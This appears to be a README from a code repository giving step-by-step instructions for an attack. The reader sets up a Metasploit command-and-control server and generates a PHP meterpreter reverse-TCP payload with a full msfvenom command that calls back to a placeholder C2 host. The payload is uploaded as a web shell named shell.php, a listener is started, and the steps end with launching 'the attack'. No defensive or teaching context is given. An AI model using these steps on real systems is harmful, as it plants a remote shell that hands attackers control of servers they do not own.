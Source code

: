 # Generate shellcode and run MSF listener

- Get a Linux (Kali?) server with Metasploit installed - your C2 server
- Generate shell.php file and upload to the **static** folder as "shell.php". Generate on your Linux machine with:
`msfvenom -p php/meterpreter_reverse_tcp LHOST=c2-server.example.com LPORT=30000 -f raw > shell.php`

- Copy files in shellcode directory to your C2 server

- Run MSF listener on C2 server by running run-msf.sh, which in turn will use details in meterpreter.rc **Ensure you have updated this file with your C2 server IP**

- Ensure Metasploit has run and is listening, then you're good to launch the attack!